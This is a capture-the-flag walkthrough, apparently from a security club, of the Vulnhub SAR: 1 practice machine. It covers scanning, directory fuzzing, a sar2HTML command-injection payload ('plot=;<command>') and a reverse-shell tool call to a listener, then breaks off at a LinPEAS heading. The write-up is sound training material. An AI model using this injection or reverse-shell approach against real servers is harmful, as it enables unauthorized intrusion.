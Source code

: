 <p align="center"><img src="https://github.com/AkaSec-1337-CyberSecurity-Club/Introduction/raw/main/light-14.jpg" alt="AkaSec 1337 CyberSecurity Club Logo"/><br></p>

# Introduction

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.

This box is on the <a href="https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0">NetSecFocus Admin list</a> of OSCP-like machines. It’s <a href="https://www.vulnhub.com/entry/sar-1,425/">SAR: 1</a> from vulnhub.

## Setup Machine

First of all, I setup <a href="https://www.vulnhub.com/entry/sar-1,425/">sar machine</a> locally in a virtualMachine with the name **sar** then started it.
After starting the machine, I got its IP address using **VBoxManage** command
```bash
$> VBoxManage guestproperty enumerate sar | grep IP
```
<p align="center"><img src="screenShots/GetMachineIP.png" alt="Machine IP"/></p><br>

## Enumeration

### Nmap

The first step to penatrate a machine is gather information about it. After getting its IP address we can scan its to get open ports and service using **nmap** command

```bash
$> nmap FLAGS IPADDRESS
-A flag for aggressive scanning
-sV flag detect running services and their version
```

<p align="center"><img src="screenShots/Nmap.png" alt="Scan IP address with nmap"/></p><br>

### Fuzzing

The output shows that we have port 80 open, so we can access the ip via browser, The default page shows apache info page.
The next step is searching for more directories and files, to do that we can use **dirb** tool

```bash
$> dirb http://IPADDRESS/ /path/to/wordlist
```

<p align="center"><img src="screenShots/Dirb.png" alt="Fuzzing for more paths"/></p><br>

The output of **dirb** tool shows 3 valid paths, `index.html` which is the default apache page, `phpinfo.php` shows php info, and finally `robots.txt` that has `sar2HTML` text.
I put that text as path in URL and I got the following page

<p align="center"><img src="screenShots/sar2HTML.png" alt="sar2HTML page"/></p>

### Exploiting

After reading the content I decided to look up sar2Html in google, and I found that it is a service that has a Remote Code Execution vulnerability, I exploited it as described in <a href="https://www.exploit-db.com/exploits/47204">exploit-db</a>, `IPADDRESS/sar2HTML/index.php?plot=;<command>` this will execute the command and show the output of it in select host droplist at the left of the page.

<p align="center"><img src="screenShots/RunTheExploit.png" alt="Exploited sar2HTML"/></p>

After executing the command I immediately thought of a reverse shell, I found this <a href="https://github.com/AssassinUKG/sar2HTML">Reverse Shell for sar2HTML</a> and executed it as follow

```bash
$> ./sar2HTML -ip MACHINEIPADDRESS -rip LISTENING_SERVER_FOR_REVERSE_SHELL -pe DIRECTORY
```
running `rs session` on the webShell will create a server (listening on `IP:PORT` provided in `-rip` flag) with a Reverse Shell.<br>
After getting the reverse shell I started checking the current directory, which is `/sar2HTML`, then back one step to parent directory which is `/var/www/html`.<br>
I found in this directory 2 suspicious files, `finally.sh` with root as owner and `write.sh` with current user as owner which is `www-data`.<br>
After printing their content I found that `finally.sh` execute `write.sh` file, where `write.sh` file create `/tmp/gateway` file using `touch` command.<br>
That is all I could get for now.
<p align="center"><img src="screenShots/ReverseShell.png" alt="Reverse Shell"/></p><br>

### LinPEAS



